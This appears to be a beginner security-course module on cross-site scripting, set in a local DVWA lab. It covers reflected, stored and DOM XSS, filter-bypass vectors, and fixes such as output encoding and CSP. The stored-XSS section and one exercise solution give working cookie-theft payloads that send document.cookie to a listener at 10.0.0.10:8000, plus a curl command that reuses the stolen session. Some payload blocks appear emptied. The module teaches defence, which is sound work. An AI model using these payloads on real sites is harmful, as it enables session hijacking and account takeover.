

# 05-4 · Cross-Site Scripting (XSS)

> **Level:** Beginner · **Prerequisites:** [05-3 SQL injection](03_sql_injection.md)
> **Time:** ~1.5 hours · **Verified:** 2026-06-25 (DVWA lab, concept module)

> ⚠️ **LEGAL REMINDER:** XSS can be used to steal credentials from real users. Only test against the local Docker lab. Never inject scripts into live websites — this is illegal and causes harm to other users.

---

## Why this matters

While SQLi attacks the server, XSS attacks the *user*. A stored XSS payload runs in the browser of every visitor to a page — it can steal session cookies, redirect to phishing pages, log keystrokes, or silently exfiltrate form data. Facebook paid $500K in XSS bug bounties in a single year.

---

## What XSS is

XSS (Cross-Site Scripting) occurs when a web app includes user-supplied data in an HTML page without proper encoding. The attacker's JavaScript executes in the victim's browser with full access to:
- The page DOM
- Any cookies not marked `HttpOnly`
- The user's session (what they can do, the attacker can do)
- The browser's origin context (bypasses SOP for the vulnerable site)

---

## Three types of XSS



---

## Type 1: Reflected XSS

The payload is in the URL or request parameter, and the server reflects it back in the response.

Vulnerable server code:
```python
# Flask — renders search term directly in HTML
@app.route("/search")
def search():
    term = request.args.get("q", "")
    return f"<h1>Results for: {term}</h1>"
```

Attack URL:
```
http://localhost:5000/search?q=<script>alert('XSS')</script>
```

The server returns:
```html
<h1>Results for: <script>alert('XSS')</script></h1>
```

The browser runs the script. In a real attack, the attacker sends the victim this URL via email/social media. The script runs in the victim's browser with the site's origin.

---

## Type 2: Stored XSS (the dangerous one)

The payload is stored in the database and rendered every time any user views the page.

In DVWA (XSS Stored module, Security: Low):

1. In the "Name" field enter: `<script>alert(document.cookie)</script>`
2. Click Submit
3. Every user who visits the guestbook page now sees their cookies in an alert

**Escalation — cookie theft:**
```javascript
<script>
  new Image().src = "http://10.0.0.10:8000/steal?c=" + encodeURIComponent(document.cookie);
</script>
```

From the attacker container, start an HTTP server to receive stolen cookies:
```bash
cd /shared && python3 -m http.server 8000
```

When any user views the page, their browser sends a request to the attacker's server with their cookies in the URL query string.

---

## Type 3: DOM-based XSS

The page's JavaScript reads from `window.location` and writes to the DOM without sanitising:

```javascript
// Vulnerable JS — don't do this
document.getElementById("greeting").innerHTML = 
    "Welcome, " + decodeURIComponent(location.hash.slice(1));
```

Payload URL: `http://app/page#`

The server never sees the payload (the `#fragment` isn't sent to the server) — server-side WAFs and filters can't block it.

---

## Lab: DVWA XSS exercises

### Exercise A — Reflected XSS

1. Go to `http://localhost:8080`, log in (admin/password), set Security to Low
2. Navigate to XSS (Reflected)
3. In the "What's your name?" field, enter: `<script>alert('reflected')</script>`
4. The alert fires — reflected XSS confirmed

Now try Medium security (which filters `<script>`):
```html
<!-- Filter bypass: use img onerror -->

```

### Exercise B — Stored XSS

1. Go to XSS (Stored) in DVWA
2. In the message box, enter:
```html
<script>document.write('')</script>
```
3. From attacker container, run: `python3 -m http.server 8000`
4. Submit. Visit the page again as any user. Your attacker server receives the cookie.

---

## The fix: output encoding

```python
# VULNERABLE — raw HTML injection
return f"<h1>Hello {username}</h1>"

# SECURE — escape HTML special characters
from markupsafe import escape
return f"<h1>Hello {escape(username)}</h1>"

# In Flask, use render_template + Jinja2 auto-escaping (default)
return render_template("hello.html", username=username)
# In the template: {{ username }} is auto-escaped
# Only {{ username | safe }} would be dangerous
```

Context matters:
- HTML context: encode `< > " & '` → `&lt; &gt; &quot; &amp; &#x27;`
- JavaScript context: JSON-encode; never use `innerHTML`
- URL context: `urllib.parse.quote()`

---

## Content Security Policy (CSP)

CSP is an HTTP response header that tells the browser which scripts to trust:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123'
```

This means: only run scripts from this origin, or scripts with the nonce `abc123`. An injected `<script>alert(1)</script>` has no nonce and the browser refuses to run it.

Check if the lab targets set CSP:
```bash
curl -I http://localhost:5001/ | grep -i "content-security"
# (vuln-flask has no CSP — finding to report)
```

---

## Common mistakes

**"I filter `<script>` tags, I'm safe"**
There are dozens of XSS vectors that don't use `<script>`:
```html

<a href="javascript:alert(1)">click</a>
<svg onload=alert(1)>
<input autofocus onfocus=alert(1)>
```

**"I use `innerHTML` but I clean the input"**
Sanitising HTML is extremely hard — OWASP publishes a library (DOMPurify) specifically because ad-hoc filtering always has bypasses. Rule: never use `innerHTML` with user content. Use `textContent` or a sanitisation library.

---

## Exercises

1. **Find the XSS vector in vuln-flask.** Read `vuln_flask/app.py` and find any endpoint that renders user input in HTML without escaping. The `/notes` endpoint renders notes inline. Test it.

<details>
<summary>Solution</summary>

The `/notes` endpoint renders note content directly into HTML. To test, log in as admin and create a note with content `<b>Bold</b>` — if it renders as bold text (not literal characters), it's vulnerable. Then try `<script>alert(1)</script>`. If you see an alert, it's XSS.

In the Flask template, the fix is to use `{{ note.content }}` (Jinja auto-escapes) instead of `{{ note.content | safe }}`.

</details>

2. **Check for CSP.** Use curl to check whether vuln-flask and DVWA send a `Content-Security-Policy` header. Write one line each of the report finding if they don't.

<details>
<summary>Solution</summary>

```bash
curl -I http://localhost:5001/ | grep -i "security\|csp\|x-frame\|x-content"
curl -I http://localhost:8080/ | grep -i "security\|csp\|x-frame\|x-content"
```

Finding: "Neither target sets a Content-Security-Policy header (OWASP A05). An attacker exploiting a stored XSS vulnerability will be able to execute arbitrary JavaScript in the victim's browser context without mitigation."

</details>

3. **Escalate to session hijack.** In DVWA XSS Stored (Security: Low), craft a payload that sends the PHPSESSID cookie to a listener on 10.0.0.10:8000. Start the listener and capture the cookie. Then use that cookie to authenticate as the admin without knowing the password.

<details>
<summary>Solution</summary>

```html
<!-- Payload to store: -->
<script>fetch('http://10.0.0.10:8000/?cookie='+document.cookie)</script>

<!-- Attacker listener: -->
docker exec attacker-1 python3 -m http.server 8000

<!-- Use the captured cookie: -->
curl -b "PHPSESSID=<captured_value>" http://10.0.0.20/index.php
```

If the cookie is stolen from an admin session and the server doesn't bind sessions to IP, this gives full admin access.

</details>

---

## Recap & next

- ✅ Reflected XSS: payload in URL, victim clicks link
- ✅ Stored XSS: payload in DB, runs for all users — most dangerous
- ✅ DOM-based XSS: purely client-side, bypasses server filters
- ✅ Fix: **output encoding** for every context + CSP as defence in depth
- ✅ `HttpOnly` cookies prevent JS theft; CSP `script-src` prevents inline execution

**→ Next: [05 Authentication attacks](05_authentication_attacks.md)**
